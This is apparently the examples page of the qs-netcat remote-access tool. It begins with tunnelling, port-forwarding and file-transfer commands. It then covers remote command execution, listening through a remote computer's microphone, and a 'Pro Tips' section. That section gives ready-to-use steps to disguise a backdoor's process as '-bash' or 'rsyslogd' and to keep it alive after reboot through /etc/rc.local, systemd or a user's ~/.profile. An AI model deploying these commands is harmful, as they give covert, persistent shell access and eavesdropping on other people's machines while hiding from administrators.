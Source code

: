 ```yaml
---
title: 'Examples'
toc: false
---
```


# Examples

---

<video width="760" height="500" controls>
  <source src="https://user-images.githubusercontent.com/17179401/221196823-5c6e3a66-3b06-410a-9d2b-33efd101428a.mp4" type="video/mp4">
</video> 

<details>
<summary>RDP connection over QSRN</summary>

<video width="760" height="500" controls>
  <source src="https://github.com/qsocket/qs-netcat/assets/17179401/af46c8fb-cb33-483a-b5c1-9142843da2bd" type="video/mp4">
</video>
</details>

<details>
<summary>ADB access over QSRN</summary>

<video width="760" height="500" controls>
  <source src="https://user-images.githubusercontent.com/17179401/216651601-6ddc8ddf-7248-4c2b-bd77-00f00f773c80.mov" type="video/mp4">
</video>
</details>

**Usage:**

- SSH from *Workstation B* to *Workstation A* through any firewall/NAT
```
$ qs-netcat -f "localhost:22" -l  # Workstation A
$ qsocket ssh root@qsocket        # Workstation B
```
- Log in to Workstation A from Workstation B through any firewall/NAT
```
$ qs-netcat -l -i   # Workstation A
$ qs-netcat -i      # Workstation B
```

- Transfer files from *Workstation B* to *Workstation A*
```
$ qs-netcat -q -s MySecret -l > file.txt     # Workstation A
$ qs-netcat -q -s MySecret < file.txt        # Workstation B
```

- Port forward. Access 192.168.6.7:22 on Workstation's A private LAN from Workstation B:
```
$ qs-netcat -l -f 192.168.6.7:22    # Workstation A
$ qs-netcat -f :2222                # Workstation B
```

- In a new terminal on Workstation B execute:
```
ssh -p 2222 root@127.0.0.1        # Will ssh to 192.168.6.7:22 on Workstation's A private LAN
```

- Execute any command (nc -e style) on *Workstation A*
```
$ qs-netcat -l -e "echo hello world; id; exit"   # Workstation A
$ qs-netcat                                      # Workstation B
```

Another example: Spawn a new docker environment deep inside a private network
```
# Start this on a host deep inside a private network
qs-netcat -il -e "docker run --rm -it kalilinux/kali-rolling"
```

Access the docker environment deep inside the private network from anywhere in the world:
```
qs-netcat -i
```
Listen in on a remote computer microphone for 10 seconds
```
$ qs-mic -l -s MySecret           # Workstation A
$ qs-mic -d 10 -s MySecret --play # Workstation B
```
Access entirety of Workstation A's private LAN (Sock4/4a/5 proxy)
```
$ qs-netcat -l -f :22 -s MySecret                                        # Workstation A
$ ssh -D 9090 -o ProxyCommand='qs-netcat -s MySecret' root@doesnotmatter # Workstation B

Access www.google.com via Workstation A's private LAN from your Workstation B:
$ curl --socks4a 127.1:9090 http://www.google.com
```

Mount a remove folder using sshfs and qs-netcat
```
$ qs-netcat -l -f :22 -s MySecret # Workstation A
$ qs-netcat -f :9090 -s MySecret  # Workstation B
$ sudo sshfs -o allow_other,default_permissions -p 9090 root@localhost:/remote_dir /mnt/local_dir # Workstation B
```

**Pro Tips**
- Hide your arguments (argv)

Pass the arguments by environment variable (QS_ARGS) and use a bash-trick to hide qs-netcat binary in the process list:
```
$ export QS_ARGS="-s MySecret -l -i -q"
$ exec -a -bash ./qs-netcat &     # Hide as '-bash'.
$ ps alxww | grep qs-netcat

$ ps alxww | grep -bash
  1001 47255     1   0  26  5  4281168    436 -      SNs    ??    0:00.00 -bash
```

- SSH login to remote workstation
```
# On the remote workstation execute:
qs-netcat -s MySecret -l -f 192.168.6.7:22
```
or
```
# Access 192.168.6.7 via ssh on the remote network from your workstation:
ssh -o ProxyCommand='qs-netcat -s MySecret' root@doesnotmatter
```

- Retain access after reboot
The easiest way to retain access to a remote system is by using [the automated deploy script](https://github.com/qsocket/qs-deploy). Alternatively the following can be used to achieve the same:
Combine what you have learned so far and make your backdoor restart after reboot (and as a hidden service obfuscated as *rsyslogd*). Use any of the start-up scripts, such as */etc/rc.local*:
```
$ cat /etc/rc.local
#! /bin/sh -e

QS_ARGS="-s MySecret -l -i -q" HOME=/root TERM=xterm-256color SHELL="/bin/bash" /bin/bash -c "cd $HOME; exec -a rsyslogd /usr/local/bin/qs-netcat"

exit 0
```
Not all environment variables are set during system bootup. Set some variables to make the backdoor more enjoyable: *TERM=xterm-256color* and *SHELL=/bin/bash* and *HOME=/root*. The startup script (*/etc/rc.local*) uses */bin/sh* which does not support our *exec -a* trick. Thus we use */bin/sh* to start */bin/bash* which in turn does the *exec -a* trick and starts *qs-netcat*. Puh. The qs-netcat process is hidden (as *rsyslogd*) from the process list. Read [how to enable rc.local](https://linuxmedium.com/how-to-enable-etc-rc-local-with-systemd-on-ubuntu-20-04/) if */etc/rc.local* does not exist.  

Alternatively install qs-netcat as a [systemd service](examples/systemd-root-shell).

Alternativly and if you do not have root privileges then just append the following line to the user's *~/.profile* file. This will start qs-netcat (if it is not already running) the next time the user logs in. There are [many other ways to restart a reverse shell after system reboot](https://www.qsocket.io/deploy):
```
killall -0 qs-netcat 2>/dev/null || (QS_ARGS="-s MySecret -l -i -q" SHELL=/bin/bash exec -a -bash /usr/local/bin/qs-netcat)
```
